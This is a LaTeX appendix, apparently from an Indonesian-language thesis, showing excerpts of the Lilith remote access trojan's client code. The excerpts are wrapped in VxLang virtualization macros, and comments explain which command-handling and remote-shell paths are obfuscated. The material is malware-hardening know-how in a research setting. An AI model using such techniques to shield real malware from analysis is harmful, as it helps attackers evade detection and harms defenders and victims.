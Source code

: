 \chapter*{Contoh Penerapan Makro VxLang pada Lilith RAT}
\label{app:lilith_vxlang_macros_full} %

\begin{verbatim}
  // Potongan dari src/Lilith/client/client.cpp
  // Fungsi Client::ProcessPacketType(PacketType _PacketType)

  // ...
  case PacketType::Instruction: {
    std::string msg;
    if (!GetString(msg)) { // GetString sendiri mungkin tidak divirtualisasi
      return false;
    }
    // Bagian inti pemrosesan perintah dan pengiriman respons divirtualisasi
    VL_VIRTUALIZATION_BEGIN; 
    // Panggil fungsi General::processCommand yang mungkin juga sebagian/seluruhnya divirtualisasi
    std::string response = General::processCommand(msg); 
    // SendString sendiri mungkin tidak divirtualisasi agar interaksi jaringan tetap native
    SendString(response, PacketType::Instruction); 
    VL_VIRTUALIZATION_END;
    break;
  }
  // ...
  case PacketType::CMDCommand: {
    std::string msg;
    if (!GetString(msg)) return false;

    if (CMD::cmdptr != NULL) {
      // Hanya interaksi dengan objek CMD yang divirtualisasi
      VL_VIRTUALIZATION_BEGIN; 
      CMD::cmdptr->writeCMD(msg); 
      VL_VIRTUALIZATION_END;
    } else {
      // Jalur error handling mungkin tidak perlu divirtualisasi
      SendString("Initiate a CMD session first.", PacketType::Warning);
    }
    break;
  }
  // ...
  // Contoh lain: di dalam Client::ClientThread()
  // Loop utama pemrosesan paket dapat divirtualisasi
  /*
  void Client::ClientThread() {
    VL_VIRTUALIZATION_BEGIN; // Melingkupi seluruh loop atau bagian kritisnya
    PacketType packetTypeReceived;
    while (true) { // Kondisi loop mungkin lebih kompleks
      if (!clientptr->GetPacketType(packetTypeReceived)) 
        break; 
      if (!clientptr->ProcessPacketType(packetTypeReceived)) 
        break; 
    }
    // ... (logika setelah loop) ...
    VL_VIRTUALIZATION_END;
    // ... (cleanup koneksi) ...
  }
  */
\end{verbatim}
\label{lst:lilith_vxlang_macros_appendix_full}

